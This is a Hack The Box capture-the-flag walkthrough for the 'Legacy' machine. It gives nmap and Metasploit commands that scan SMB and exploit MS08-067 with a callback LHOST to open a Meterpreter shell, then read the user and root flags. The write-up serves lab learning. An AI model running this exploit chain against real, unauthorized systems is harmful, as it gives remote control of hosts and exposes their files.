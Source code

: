 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
![nmap-initial]("./screenshots/nmap-initial.png")

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
![msf-smb_version]("./screenshots/mfs-smb_version.png")

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
![msf-smb_version_result]("./screenshots/mfs-smb_version_res.png")

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
![meterpreter-info]("./screenshots/meterpreter-info.png")

```
cd ../../"documents and settings"
```
```
dir
```
![meterpreter-doc_set]("./screenshots/meterpreter-doc_set.png")
```
cd john/Desktop
```

```
cat user.txt
```
![user-flag]("./screenshots/user-flag.png")

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
![root-flag]("./screenshots/root-flag.png")
